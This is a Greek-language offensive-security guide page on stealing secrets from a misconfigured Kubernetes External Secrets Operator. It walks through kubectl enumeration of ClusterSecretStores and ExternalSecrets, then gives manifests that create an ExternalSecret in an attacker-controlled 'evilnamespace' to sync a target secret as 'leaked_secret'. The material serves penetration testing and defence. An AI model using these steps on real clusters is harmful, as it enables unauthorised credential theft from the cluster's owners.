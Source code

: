 # External Secret Operator

**Ο αρχικός συγγραφέας αυτής της σελίδας είναι** [**Fares**](https://www.linkedin.com/in/fares-siala/)

Αυτή η σελίδα παρέχει μερικές οδηγίες σχετικά με το πώς μπορείτε να κλέψετε μυστικά από ένα κακώς ρυθμισμένο ESO ή εφαρμογή που χρησιμοποιεί ESO για να συγχρονίσει τα μυστικά της.

## Disclaimer

Η τεχνική που παρουσιάζεται παρακάτω μπορεί να λειτουργήσει μόνο όταν πληρούνται ορισμένες συνθήκες. Για παράδειγμα, εξαρτάται από τις απαιτήσεις που απαιτούνται για να επιτραπεί σε ένα μυστικό να συγχρονιστεί σε ένα namespace που κατέχετε / έχετε παραβιάσει. Πρέπει να το ανακαλύψετε μόνοι σας.

## Prerequisites

1. Ένα foothold σε ένα kubernetes / openshift cluster με δικαιώματα διαχειριστή σε ένα namespace
2. Πρόσβαση ανάγνωσης τουλάχιστον στο ExternalSecret σε επίπεδο cluster
3. Ανακαλύψτε αν υπάρχουν απαιτούμενες ετικέτες / αναφορές ή μέλη ομάδας που απαιτούνται για να επιτρέψουν στο ESO να συγχρονίσει το μυστικό σας. Αν έχετε τύχη, μπορείτε ελεύθερα να κλέψετε οποιοδήποτε καθορισμένο μυστικό.

### Gathering information about existing ClusterSecretStore

Υποθέτοντας ότι έχετε χρήστες που έχουν αρκετά δικαιώματα για να διαβάσουν αυτό το πόρο; ξεκινήστε πρώτα με την καταγραφή των υπαρχόντων _**ClusterSecretStores**_.
```sh
kubectl get ClusterSecretStore
```
### ExternalSecret enumeration

Ας υποθέσουμε ότι βρήκατε ένα ClusterSecretStore με το όνομα _**mystore**_. Συνεχίστε με την καταμέτρηση του σχετικού externalsecret.
```sh
kubectl get externalsecret -A | grep mystore
```
_Αυτή η πηγή είναι περιορισμένη σε namespace, οπότε εκτός αν γνωρίζετε ήδη ποιο namespace να αναζητήσετε, προσθέστε την επιλογή -A για να αναζητήσετε σε όλα τα namespaces._

Πρέπει να λάβετε μια λίστα με τα καθορισμένα externalsecret. Ας υποθέσουμε ότι βρήκατε ένα αντικείμενο externalsecret που ονομάζεται _**mysecret**_ και χρησιμοποιείται από το namespace _**mynamespace**_. Συγκεντρώστε λίγο περισσότερες πληροφορίες σχετικά με το είδος του μυστικού που περιέχει.
```sh
kubectl get externalsecret myexternalsecret -n mynamespace -o yaml
```
### Συναρμολόγηση των κομματιών

Από εδώ μπορείτε να αποκτήσετε το όνομα ενός ή πολλών μυστικών (όπως ορίζεται στον πόρο Secret). Θα λάβετε μια έξοδο παρόμοια με:
```yaml
kind: ExternalSecret
metadata:
annotations:
...
labels:
...
spec:
data:
- remoteRef:
conversionStrategy: Default
decodingStrategy: None
key: SECRET_KEY
secretKey: SOME_PASSWORD
...
```
Μέχρι στιγμής έχουμε:

- Όνομα ενός ClusterSecretStore
- Όνομα ενός ExternalSecret
- Όνομα του μυστικού

Τώρα που έχουμε όλα όσα χρειαζόμαστε, μπορείτε να δημιουργήσετε ένα ExternalSecret (και τελικά να διορθώσετε/δημιουργήσετε ένα νέο Namespace για να συμμορφωθείτε με τις προϋποθέσεις που απαιτούνται για να συγχρονιστεί το νέο σας μυστικό):
```yaml
kind: ExternalSecret
metadata:
name: myexternalsecret
namespace: evilnamespace
spec:
data:
- remoteRef:
conversionStrategy: Default
decodingStrategy: None
key: SECRET_KEY
secretKey: SOME_PASSWORD
refreshInterval: 30s
secretStoreRef:
kind: ClusterSecretStore
name: mystore
target:
creationPolicy: Owner
deletionPolicy: Retain
name: leaked_secret
```

```yaml
kind: Namespace
metadata:
annotations:
required_annotation: value
other_required_annotation: other_value
labels:
required_label: somevalue
other_required_label: someothervalue
name: evilnamespace
```
Μετά από μερικά λεπτά, αν πληρούνταν οι συνθήκες συγχρονισμού, θα πρέπει να μπορείτε να δείτε το διαρρεύσαν μυστικό μέσα στο namespace σας.
```sh
kubectl get secret leaked_secret -o yaml
```
## Αναφορές

{{#ref}}
https://external-secrets.io/latest/
{{#endref}}

{{#ref}}
https://github.com/external-secrets/external-secrets
{{#endref}}
